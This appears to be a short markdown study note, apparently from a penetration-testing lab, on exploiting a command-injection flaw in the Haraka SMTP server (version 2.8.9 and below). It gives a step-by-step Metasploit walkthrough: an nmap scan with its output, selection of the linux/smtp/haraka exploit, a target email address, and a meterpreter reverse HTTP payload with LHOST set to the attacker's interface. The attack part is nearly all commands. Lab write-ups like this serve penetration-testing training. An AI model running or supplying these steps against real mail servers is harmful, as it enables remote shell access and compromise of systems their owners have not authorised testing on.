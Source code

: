 # SMTP EXPLOTATION

### simple mail transfer protocol
By default port 25 
can be configured to run on port TCP **465 AND 587**

### explotation HARAKA
```
Haraka is an open source high performance SMTP server developed in Node.js.
The Haraka SMTP server comes with a plugin for processing attachments.
Haraka versions V2.8.9 are vulnerable to command injection.
```

## VErsion 2.8.9 smtp and smaller


# DEMO
>msfconsole
>>workspace
>>>setg RHOSTS
>>>db_nmap -sS -sV -sC -O **<ip**
```bash
[*] Nmap: PORT STATE SERVICE VERSION
[*] Nmap: 25/tcp open smtp Haraka smtpd 2.8.8
[*] Nmap: MAC Address: 02:42:C0:56:33:03 (Unknown)
```
### exploit
>>>linux/smtp/haraka
>>>set SRV_PRT 9898
>>>set email_to root@attackdefence.text
>>>set Payload linux/x64/meterpreter_reverse_http  
```bash
THIS IS A STAGELESS PAYLOAD
```
>>>set LHOST **<eth1>**
```bash
*tHIS NEEDS 8080 THATS WHY WE CHANGED SRV_PORT TO DIFFERENT ONE*
```
>RUN
